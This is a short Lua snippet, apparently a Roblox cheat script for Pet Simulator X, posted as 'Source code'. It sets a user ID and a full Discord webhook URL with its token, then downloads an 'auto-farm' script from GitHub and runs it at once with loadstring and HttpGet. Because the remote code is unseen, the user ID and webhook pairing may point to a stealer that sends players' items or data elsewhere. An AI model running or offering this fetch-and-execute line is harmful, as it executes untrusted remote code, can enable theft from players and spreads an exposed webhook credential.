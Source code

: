 _G.UserID = 2939353183
_G.WebHook = "https://discordapp.com/api/webhooks/1078317205164408942/9VAGharzZC4jtNeGGup7JsMFaIKqgSWrpwNFQmcFyQMf0tX7iQ4oJ8CDpqrKJsnO8oag"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua", true))()
